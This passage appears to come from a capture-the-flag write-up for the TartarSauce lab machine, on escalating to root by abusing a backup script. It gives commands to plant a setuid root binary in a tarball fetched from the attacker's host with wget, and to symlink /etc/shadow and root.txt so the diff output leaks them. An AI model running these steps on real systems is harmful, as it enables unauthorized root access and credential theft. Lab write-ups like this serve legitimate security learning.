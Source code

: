 Now compile as a 32-bit binary:

```bash
sudo gcc -m32 -o setuid setuid.c

mkdir -p var/www/html
mv setuid var/www/html
```

the tar command preserves the original ownership (user and group IDs) stored in the tarball, so let’s make sure root own all of this:

```bash
sudo chown -R root:root var/
sudo chmod +sx var/www/html/setuid

tar czvf setuid.tar.gz var
```

Now transfer the file over:

```bash
cd /var/tmp
wget http://10.10.16.7/setuid.tar.gz
```

We can use systemctl to see when the next backuperer executes:

```bash
systemctl list-timers
```

After a while:

```bash
-rw-r--r--  1 onuma onuma 11511296 Sep 10 10:04 .8de8d9532cb49041cc632169b7b8f23e5afea6ff
```

```bash
cp setuid.tar.gz .8de8d9532cb49041cc632169b7b8f23e5afea6ff
```

After 30 seconds, we have the check dir, and in it is our root binary.

![image.png]({{ site.baseurl }}/assets/tartarsauce/image%2011.png)

![image.png]({{ site.baseurl }}/assets/tartarsauce/image%2012.png)

```bash
./setuid
./setuid: /lib/i386-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./setuid)
```

Our version of ubuntu is too new, compiling a really old version would be too bothersome. 

Let’s try another way. Let’s try symlinking files inside /var/www/html to point to root.txt and /etc/shadow, since the diff -r will be outputting the differences to $bkpdir/onuma_backup_error.txt, we can get it to read the differences from each file.

```bash
cd /var/tmp/

mkdir -p var/www/html
cd var/www/html
#create symbolic link here

ln -s /etc/shadow index.html
ln -s /root/root.txt robots.txt
```
